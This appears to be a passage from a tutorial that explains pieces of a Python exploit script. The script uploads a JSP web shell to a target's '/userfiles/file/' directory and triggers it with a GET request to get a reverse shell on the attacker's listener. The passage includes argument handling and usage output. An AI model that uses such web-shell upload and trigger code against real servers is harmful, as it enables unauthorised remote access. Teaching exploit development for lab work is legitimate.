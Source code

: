 This is how we call the function, the values are taken from the following variables:
```py
rhost = sys.argv[1]
lhost = sys.argv[2]
lport = sys.argv[3]
```

Using system arguments we can pass values to our program directly through our terminal, `sys.argv[0]` is the name of your program and the rest are values followed after program's name, in this case after `exploit.py`.

The following code gives users instructions on how to use the program & what command-line arguments to pass with an example:
```py
if len(sys.argv) != 4:
    print("Usage: python3 exploit.py <target_host> <listener_ip> <listener_port>")
    print("Example: python3 exploit.py http://10.10.20.15:80 127.0.0.1 1337")
    sys.exit()
```

<br>

> `if upload == True:`

This is the final if-else clause that checks if the upload was successful or not. If not it throws an error and exits:
```py
if upload == True:
    print(f"[ + ] Upload successful, uploaded to:\n[>>>] {rhost}/userfiles/file/{shell_name}.jsp")
    print("[...] Opening the shell, hold your beer...")
    try:
        requests.get(url=f'{rhost}/userfiles/file/{shell_name}.jsp', timeout=10)
    except Exception as error:
        print(error)
        sys.exit()
    print("[***] Check your listener!")
else:
    print("[ - ] Shell upload failed, exiting.")
    sys.exit()
```

The upload directory for shell is `/userfiles/file/`, I have used string formatting to pass in `rhost` and name of the shell.
Another important piece is that in order to get a reverse shell you must open the shell or trigger it and we do that by sending a `GET` request to shell:
```py
requests.get(url=f'{rhost}/userfiles/file/{shell_name}.jsp', timeout=10)
```

<br>

### Testing the exploit

Here is what I get when I ran the exploit without passing any arguments:
```
$ python3 exploit.py                                              
Usage: python3 exploit.py <target_host> <listener_ip> <listener_port>
Example: python3 exploit.py http://10.10.20.15:80 127.0.0.1 1337
```
